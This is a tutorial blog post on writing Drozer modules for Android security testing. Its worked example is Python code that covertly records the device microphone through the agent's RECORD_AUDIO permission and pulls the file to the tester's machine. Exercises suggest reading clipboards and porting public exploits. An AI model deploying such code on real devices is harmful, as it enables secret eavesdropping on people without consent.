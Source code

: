 ```yaml
---
title: "Writing Drozer Modules"
createdOn: 2018-05-13T17:10:13+05:30
status: "published"
tags:
  - Security
  - Development
  - Python
---
```


This post is a result of my experimentation with Drozer. Drozer is a security
testing framework for Android, developed by MWR Labs. According the Drozer's
official
[documentation](https://labs.f-secure.com/assets/BlogFiles/mwri-drozer-user-guide-2015-03-23.pdf):

> Drozer allows you to assume the role of an Android app and interact with other
> apps. It can do anything that an installed application can do, such as making
> use of Android's Inter-Process Communication (IPC) mechanism and interact with
> the underlying operating system.

Drozer modules are written in Python. The module performs operations on an
Android device with the help of an agent app installed on the device. The agent
app, by default, has permission to use the internet connection only. This
permission is required so that the agent can open a ServerSocket on port 31415
(default). The agent will listen for the incoming connections on this port. The
console will connect to the agent on this port.

Drozer modules are inherited Python classes. The parent class is defined in
[drozer.modules.Module](https://github.com/FSecureLABS/drozer/blob/develop/src/drozer/modules/base.py).
Drozer console provides commands to create a custom module repository, which is
very useful for the local development of modules.

You can read more about the structure of a Drozer module
[here](https://github.com/FSecureLABS/drozer/wiki/Writing-a-Module).

I will explain all the critical parts of a Drozer module with the help of a
sample module. I will be implementing a module to record and save the sound from
the inbuilt mic of an Android device.

I initialized a new module repository using the Drozer console using the
following command.

```text
dz> module repository create custom
Initialised repository at custom.
```

You will see a new directory `custom` in your current directory after executing
above command. Navigate to this directory and create a new folder with any name.
I prefer to name this folder same as my module name. In this folder, create a
file `__init__.py`. Drozer identifies the folder as a module directory if
`__init__.py` is present in the directory. Now you can implement your module in
this directory.

To begin implementing our module, create a new file `record.py` in the module
directory. Drozer has many different utility classes, which we can use to
simplify our implementation. To use these utility classes
([mixins](https://github.com/FSecureLABS/drozer/wiki/Using-mixins)), our module
class must extend _mixins_ using Python's multiple inheritance feature.

We first need to import all the required mixins. The mixins are stored in
`modules.common` package in the Drozer source tree. After importing mixins and
extending our class, the code will look like this. You can also import any other
standard Python module here.

```python
from drozer.modules import common, Module
import os, subprocess, time

class Record(Module, common.Shell, common.FileSystem, common.ClassLoader):
```

Now we will set up the metadata for our module. This information will help
Drozer to organize and list our module correctly. We can define the name,
description, author, date, license, path, permissions, and examples. Most of the
available options are self-explanatory. But _path_ and _permissions_ require
some explanation.

The _path_ variable defined here is an array that contains the values for the
namespace of the module. Drozer supports separate namespaces for each module. We
can combine similar modules in the same namespace using this feature.

The _permissions_ array variable contains all the permissions that this module
will require for proper functioning. For example, our module will need
permission to record audio on the device to work correctly. So we define this
permission in the permissions array. The agent app on the device is required to
have this permission. Otherwise, our module will throw an error.

The following snippet shows the metadata section of our module.

```text
name = "Record sound from the inbuilt mic of an Android device."
description = "Record sound from the inbuilt mic of an Android device. The default save format is 3GPP. Relies on the agent having the RECORD_AUDIO permission."
examples = """
dz> run custom.record.record
Setting up recorder configuration...
Recording started
Press any key to stop recording

Recording stopped...downloading recording
Screenshot captured. Saved at location /home/yash/work/drozer/1524201166.3gp
"""
author: "Yash Agarwal"
date: "2018-04-14"
license = "BSD (3 clause)"
path = ["custom", "record"]
permissions = ["android.permission.RECORD_AUDIO", "com.mwr.dz.permissions.GET_CONTEXT"]
```

Now we can start implementing the heart of our module, the `execute()` function.
This function will be invoked by Drozer when the module is run. Every action
that the module is expected to perform should be implemented in this method.

The implementation of `execute()` method is slightly tricky and requires an
understanding of different classes and methods provided by the Android API. As
we are writing a module to record sound, we will look into the documentation of
[MediaRecorder](https://developer.android.com/guide/topics/media/mediarecorder.html)
class. Before reading further, go through the documentation about the use of
reflection API in Drozer
[here](https://github.com/FSecureLABS/drozer/wiki/Using-Reflection).

The `execute()` function is given below.

```python
def execute(self, arguments):
    # unique file names
    filename = str(int(time.time())) + ".3gp"

    # current working directory of Drozer console
    cwd = self.workingDir()

    # Magic of Reflection API !!!
    recorder = self.new("android.media.MediaRecorder")
    AudioSource = self.klass("android.media.MediaRecorder$AudioSource")
    OutputFormat = self.klass("android.media.MediaRecorder$OutputFormat")
    AudioEncoder = self.klass("android.media.MediaRecorder$AudioEncoder")

    recorder.setAudioSource(AudioSource.MIC)
    recorder.setOutputFormat(OutputFormat.THREE_GPP)
    recorder.setAudioEncoder(AudioEncoder.AMR_NB)
    recorder.setOutputFile("%s/recording.3gp" % cwd)
    recorder.prepare()

    self.stdout.write("Recording started\n")
    recorder.start()
    raw_input("Press any key to stop recording\n")
    recorder.stop()
    self.stdout.write("Recording stopped...\n")
    recorder.reset()
    recorder.release()

    # Download file from device to PC
    length = self.downloadFile("%s/recording.3gp" % cwd, filename)

    if length != None:
        self.stdout.write("Recording saved\n")

    else:
        self.stderr.write("Recording could not be fetched from the device.\n")
```

I followed the sample use case given on
[this](https://developer.android.com/reference/android/media/MediaRecorder.html)
page, to instantiate and use the _MediaRecorder_ object.

After the recording is finished, we want to save this recorded media file to our
computer. Drozer provides a method,
[downloadFile](https://github.com/FSecureLABS/drozer/blob/c92d74024c653b6dc7de3378a24e51d276ae2c62/src/drozer/modules/common/file_system.py)
exactly for this purpose. This method returns the length of the data downloaded
on success and `None` otherwise. We can use this information to test the success
or failure of the fetching of the recording.

That's all. We have successfully implemented a Drozer module which can record
the sound on an Android device without the knowledge of the user. Do you smell
something fishy here? The whole idea here depends on that particular
`android.permission.RECORD_AUDIO` permission that our agent app had. It allowed
our module to record without _user consent_ (actually, the user gave her consent
unknowingly while installing agent app). Many apps nowadays ask for arbitrarily
random permissions. Those permissions might not be related to the functionality
of the app in any way, but because there is no method to install apps without
granting these permissions, the users grant all permissions to these apps. That
can be exploited very easily. This tutorial tried to show one of such
exploitations.

Here are some exercises that you should try if you want to learn more about
Drozer module development.

- A module to initiate a call on a device.
- A module to get the clipboard values on a device
- Try finding a public exploit on Android forums such as XDA and implement that
  exploit as a Drozer module.

Slightly tougher one.

- A module to terminate a call without user intervention (I do not know if it is
  possible to do this programmatically. If you implement this successfully, do
  let me know in the comments section.)

Thanks for reading. Cheers :)
